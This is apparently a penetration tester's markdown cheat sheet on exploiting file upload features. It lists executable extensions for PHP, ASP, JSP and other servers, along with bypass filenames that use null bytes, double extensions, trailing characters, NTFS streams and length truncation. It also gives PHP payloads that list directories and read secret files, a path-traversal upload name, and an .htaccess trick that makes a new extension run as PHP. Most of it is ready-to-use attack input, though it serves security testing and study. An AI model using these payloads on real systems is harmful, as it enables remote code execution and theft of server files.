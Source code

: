 
## Important

Type of file upload Vulnerablity
```Terminal
- Overwriting
- Client Side Bypass
	- Bypass Filtering (HTML)
	- Changing Extension
	  ↓---↓---↓---↓---↓
```

- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_
	- **Working in PHPv8**: _.php_, _.php4_, _.php5_, _.phtml_, _.module_, _.inc_, _.hphp_, _.ctp_     

- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_

- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_

- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_

- **Flash**: _.swf_

- **Perl**: _.pl, .cgi_

- **Erlang Yaws Web Server**: _.yaws_

##  Bypass file extensions checks

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._

2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_

    - _file.png.php_    
    - _file.png.Php5_

3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)

    - _file.php%20_        
    - _file.php%0a_
    - _file.php%00_
    - _file.php%0d%0a_        
    - _file.php/_
    - _file.php.\_
    - _file._        
    - _file.php...._
    - _file.pHp5...._

4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._

    - _file.png.php_
    - _file.png.pHp5_
    - _file.php#.png_
    - _file.php%00.png_
    - _file.php\x00.png_
    - _file.php%0a.png_
    - _file.php%0d%0a.png_
    - _file.phpJunk123png_

5. Add **another layer of extensions** to the previous check:

    - _file.png.jpg.php_
    - _file.php%00.png%00.jpg_

6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):

    - _ex: file.php.png_

7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php
   
    ```
    # Linux maximum 255 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
    # Upload the file and check response how many characters it alllows. Let's say 236
    python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    # Make the payload
    AAA<--SNIP 232 A-->AAA.php.png
    ```

https://book.hacktricks.xyz/pentesting-web/file-upload


## Commands

Directory Infiltration (Client Side)
```
# List the directory
<?php echo implode("<br>",array_diff(scandir('/home/User_X/'),array('.','..'))); ?>

# List specific file
<?php echo file_get_contents('/home/User_X/secret'); ?>
```
- It is possisble to send the php into jpg and intercept the request with burpsuite (change the name of the file from  x.jpg to x.php)


Directory Infiltration using Path transversal (Client Side)
```
# Use Path Transversal to send the file to an other dir (Diff dir that allow execution code)
# Change the following in BurpSuite
try --> Content-Disposition: form-data; name="SOMETHING"; filename="../exploit.php"
URL Encode -->Content-Disposition: form-data; name="SOMETHING"; filename="..%2exploit.php"

# Make a request to the destination using ..%2
Visit the website x.com/files/SOMETHING/..%2fexploit.php
```
- Possible to use prior steps to bypass restriction on upload


Directory Infiltration (Server directive that mapp an arbitrary extension) --> Upload 2 files
```
# Verify the type of the server (Example: Apache, Nginx, Microsoft IIS, ...)
--> Send a POST request and check the result to identify the server (Or others ways)

# Verify the documentation on how to change/allow modifying the content type
# Will use Apache in the example

# Upload a JPG and change the request (filename: .htaccess / Content-Type = text/plain)
application/x-httpd-php .EXTENSION-DESIRED  ---> Include this under the file
# This will allow your code with the .EXTENSION-DESIRED to run has php

# Use the same request from the JPG upload and upload your php code (filename: X.EXTEN...)
<?php echo file_get_contents('/home/User/secret'); ?>

# Load the image on the browser or visit the URL display by the image
```
- Possible to use prior steps to bypass restriction on upload


Directory Infiltration # via obfuscated file extension
```
# Try uploading the enable file (Ex: jpg), intercept te request and modify the name
exploit.php%00.jpg      ---> Using null byte can allow you to bypass this
```
- Possible to use prior steps to bypass restriction on upload